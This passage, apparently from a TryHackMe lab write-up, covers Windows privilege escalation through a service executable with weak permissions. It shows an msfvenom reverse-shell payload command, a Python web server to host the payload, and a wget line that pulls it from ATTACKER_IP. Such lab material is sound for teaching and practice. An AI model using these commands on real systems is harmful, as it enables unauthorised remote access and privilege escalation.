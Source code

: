 If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

#### 5.2.1

To understand how this works, let's look at a Privilege Escalation vulnerability found on [exploit-db](https://www.exploit-db.com/exploits/45072) for Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

![Pasted image 20231103114453](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/df67b8fb-43c5-4704-a40f-8f19b354ad16)

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

![Pasted image 20231103114920](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/ff720af5-66b0-41cb-ba14-94f26e5f3b5f)

Interesting! The Everyone group has modify (M) permissions on the service's executable. We can choose an appropriate payload to overwrite the executable, then the service will execute it with the privileges of the configured user account.

#### 5.2.2

We can use msfvenom to generate an exe-service payload and serve it through a python simple http webserver. I am using AttackBox, but the LHOST is set to your attacking machine IP, with the LPORT as 4445 or any port of your choice except 8000.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`

![Pasted image 20231103115852](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/67e396fc-c31e-4295-88f6-961f359ddf73)

And we will create the server using:

`python3 -m http.server`

(I tend to open a new tab for this)

This allows us to pull the payload from the Windows (target) machine using the following: 

`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

![Pasted image 20231103120956](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/60aeaa4d-d326-4639-bde1-f80fc4ab157a)

#### 5.2.3

Now that the payload is in the Windows server, we can replace the service executable with our payload. To do this we will need another user, and so we want to grant full permissions to the Everyone group. 

Back to the command prompt to cd into the directory of the service installed above:

![Pasted image 20231103122930](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/480d1082-a6c2-4fb1-a341-532a3ba2096f)

And on the attacking machine we start a netcat listener on port 4445 from the payload:

![Pasted image 20231103123157](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/934ee1ca-7a15-4f1d-bd28-a59d659d6580)
